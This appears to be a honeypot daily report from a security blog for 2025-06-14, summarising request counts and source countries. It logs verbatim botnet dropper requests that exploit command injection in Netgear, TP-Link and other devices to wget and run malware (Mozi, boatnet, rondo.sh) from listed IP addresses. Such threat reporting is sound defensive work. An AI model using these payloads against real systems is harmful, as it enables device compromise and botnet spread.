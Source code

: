 ```yaml
---
title: "Report: 2025-06-14 "
date: 2025-06-14
desciption: "Report: 2025-06-14" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-14 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 6 dropper URL(s).  

There are 58 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 800 requests were recorded during the day, originating from 6 different countries, with a peak of 267 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| PL               | Israel             |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|:----------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.83    | GET /shell?cd+/tmp;iptables+-I+INPUT+-p+tcp+-s+141.98.11.147+--dport+5500+-j+ACCEPT;+iptables+-I+INPUT+-p+tcp+--dport+5500+-j+DROP;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/x86;chmod+777+*;./x86+x86;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm7;chmod+777+*;./arm7+arm7;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm4;chmod+777+*;./arm4+arm4;cd+/tmp;rm+-rf+j;nohup+wget+http:/\x5C/94.26.90.251/arm5;chmod+777+*;./arm5+arm5 HTTP/1.1 |
| 141.98.11.83    | GET /shell?cd+/tmp;wget+http://94.26.90.251/payload1.sh+-O-+|+sh HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                            |
| 103.207.124.191 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.207.124.191:38029/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                                                       |
| 144.172.103.59  | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20boatnet.arm7%3B%20wget%20http%3A%2F%2F15.235.149.59%2Fhiddenbin%2Fboatnet.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fboatnet.arm7%20tbk HTTP/1.1                                                                                                                                                                                                                                       |
| 45.135.194.34   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(killall -9 mipsel mpsl;(wget -O- http://154.91.254.95/rondo.sh||busybox wget -O- http://154.91.254.95/rondo.sh) | sh -s tplink;) HTTP/1.1                                                                                                                                                                                                                                                     |
| 45.135.194.34   | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(killall+-9+mipsel+mpsl%3B%28wget+-O-+http%3A%2F%2F154.91.254.95%2Frondo.sh%7C%7Cbusybox+wget+-O-+http%3A%2F%2F154.91.254.95%2Frondo.sh%29+%7C+sh+-s+tplink%3B) HTTP/1.1                                                                                                                                                                                                                       |
